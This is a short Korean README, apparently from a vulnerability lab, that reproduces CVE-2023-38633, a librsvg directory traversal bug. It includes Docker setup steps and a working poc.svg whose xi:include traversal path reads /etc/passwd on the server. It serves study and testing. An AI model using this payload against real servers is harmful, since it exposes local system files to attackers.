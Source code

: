 # CVE-2023-38633

**Contributors**

-   [이승환(@EL55)](https://github.com/EL55)

<br/>

### 요약

- Librsvg는 GNOME 프로젝트의 일부로 작성된 무료 소프트웨어 SVG 렌더링 라이브러리로, 가볍고 이식성이 뛰어남.
- 2.56.3 이전의 libsvg의 URL 디코더에서 Directory Traversal 문제는 로컬 또는 원격 공격자가 파일(예상 영역 밖의 로컬 파일 시스템에 있는)을 노출하는 데 사용될 수 있음.
- xi:include 요소에서 `href=".?../../../../../../../../../../etc/passwd"`와 같은 방식으로 사용될 수 있음.
- xi: include 요소에서 `href="?"?/../../.././etc/passwd`에 의해 알 수 있음.

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8080/`에 접속하여 업로드 페이지에 접근함.
-    SVG 이미지(poc.svg)를 서버에 업로드하면 `/etc/passwd`가 포함된 이미지가 표시됨.

<br/>

### poc.svg

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

<br/>

### 결과

![](1.png)
